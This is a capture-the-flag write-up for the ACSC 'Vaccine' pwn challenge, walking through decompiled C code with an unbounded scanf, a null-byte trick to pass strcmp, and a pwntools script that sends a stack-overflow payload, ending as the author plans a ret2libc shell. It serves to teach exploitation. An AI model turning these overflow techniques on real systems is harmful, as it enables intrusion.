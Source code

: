 ```yaml
---
title: "Vaccine Ret2Libc"
date: 2023-03-05T02:53:20-08:00
tags: ["pwn", "scanf", "overflow"]
---
```


### Ret2libc with unknown libc
#### ACSC Pwn Vaccine challenge

Showing how a vulnerable call to scanf can be used to overflow the stack.
 <!--more-->

This was the first pwn challenge of the Asia Cyber Security Challenge. The challenge files provided were a dockerfile, some server scripts and the ELF executable.

{{%attachments title="Related files" /%}}

When running the executable it asks us for a vaccine and rejects our response.
![running the elf](./images/first.png "running the elf")

The next step is to open it in ghidra. The only intersting function is main, and after renaming some variables it looks like this:
```c
undefined8 main(void)

{
  int check;
  size_t input_length;
  ulong iterator;
  char secret [112];
  char input [112];
  char rna [104];
  FILE *fd_secret;
  FILE *fd_rna;
  int i;

  fd_rna = fopen("RNA.txt","r");
  fgets(rna,100,fd_rna);
  printf("Give me vaccine: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00402024,input);
  i = 0;
  while( true ) {
    iterator = (ulong)i;
    input_length = strlen(input);
    if (input_length <= iterator) {
      check = strcmp(rna,input);
      if (check == 0) {
        puts("Congrats! You give the correct vaccine!");
        fd_secret = fopen("secret.txt","r");
        fgets(secret,100,fd_secret);
        printf("Here is your reward: %s\n",secret);
        return 0;
      }
      puts("Oops.. Try again later");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    if ((((input[i] != 'A') && (input[i] != 'C')) && (input[i] != 'G')) && (input[i] != 'T')) break;
    i = i + 1;
  }
  puts("Only DNA codes allowed!");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

The disassembly is a bit weird but it basically takes input with scanf, checks that the input only contains the letters A, C, G and T. There is no immediate obvious format string or buffer overflow vulnerability however when we double click the first argument to scanf we find this:

!["argument to scanf"](./images/scanf_arg.png "argument to scanf")

Since there is no size argument or number between % and s (like %20s), this allows us to overflow as easily as if it was using gets. Our plan is now to overflow the return pointer of main. We can see that the program only returns inside the inner if, and exits everywhere else, so we need to pass the strcmp and overflow at the same time. 

Fortunately, strcmp stops comparing at 0 bytes so we can completely control what it compares. If we want to compare "AAAA" with "AAAA" we would send 4 As, followed by a null byte followed by a lot of As. The exact number should be 112-4-1+4 = 111 As. This is because the input buffer is 112, we have already sent 4 As and the nullbytes and we want to overflow 4 bytes into the next buffer, which is the rna buffer. We try sending the following code locally to confirm our math.

```py
#!/usr/bin/env python3
from pwn import *

p = process("./vaccine")

# p = remote("vaccine.chal.ctf.acsc.asia", 1337)

get_to_ret = b"A"*4 + b"\x00" + b"A"*111

p.recvuntil(b"vaccine:")
p.sendline(get_to_ret)
p.interactive()
```

!["inside inner if"](./images/inside_if.png "inside inner if")

Our math is correct! However, we do not have a flag. As we can tell from the disassembly, reaching the congratulations statement only tells us the secret, not the flag. If we run it against the server it tells us "your flag is in another castle". It is clear that the reward for passing the checks is not a flag but the return statement, and we are supposed to return to libc and call system("bin/sh").
